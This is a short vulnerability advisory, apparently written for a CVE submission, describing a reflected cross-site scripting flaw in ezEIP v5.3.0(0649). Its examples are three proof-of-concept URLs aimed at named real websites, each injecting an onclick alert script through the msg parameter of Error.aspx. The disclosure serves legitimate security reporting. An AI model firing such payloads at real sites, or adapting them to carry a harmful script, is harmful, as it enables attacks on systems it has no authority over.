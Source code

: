 > [Description]
</br>
> ezEIP v5.3.0(0649) was discovered to contain a cross-site scripting vulnerability.
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Vendor of Product]
</br>
> http://gzwhir.com/
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Affected Product Code Base]
</br>
> ezEIP - ezEIP v5.3.0(0649)
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Attack Type]
</br>
> Context-dependent
</br>
>
</br>
> ------------------------------------------
</br>
>
</br>
> [Reference]
</br>
> https://github.com/God-Pattern/ezEIP/blob/main/XSS%20Vulnerability.md
</br>
> ------------------------------------------
</br>
> [Examples]
</br>
> 
</br>
> Examples_1
</br>
>http://qiqi.gzwhir.com:805/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
> Examples_2
</br>
>http://en.mobi-antenna.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
>Examples_3
</br>
>http://www.szfaosc.com/whir_system/module/security/Error.aspx?msg=%3Ca%20onclick=alert(1)%3EXSS%3C/a%3E
</br>
